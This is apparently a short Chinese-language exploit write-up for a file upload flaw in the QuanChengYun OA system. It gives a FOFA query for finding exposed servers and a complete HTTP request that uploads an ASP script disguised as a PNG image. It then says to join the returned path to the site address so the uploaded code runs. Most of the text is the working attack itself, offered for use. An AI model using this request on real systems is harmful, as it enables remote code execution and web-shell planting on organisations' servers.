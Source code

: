 # QCYoaUpload
全程云OAAttachFile文件上传


fofa：body="images/yipeoplehover.png"

```

POST /OA/api/2.0/Common/AttachFile/UploadFile HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close


------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="upload"; filename="1.asp"
Content-Type: image/png

<% Response.Write("Hello, World!") %>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--

```

![图片](https://github.com/user-attachments/assets/ca8ce676-4251-4a15-8d45-c972f5af7d2e)

拼接响应包的网址即可

使用py文件
![图片](https://github.com/user-attachments/assets/2eb2d9b5-2e83-45df-aea7-046abb844f6c)


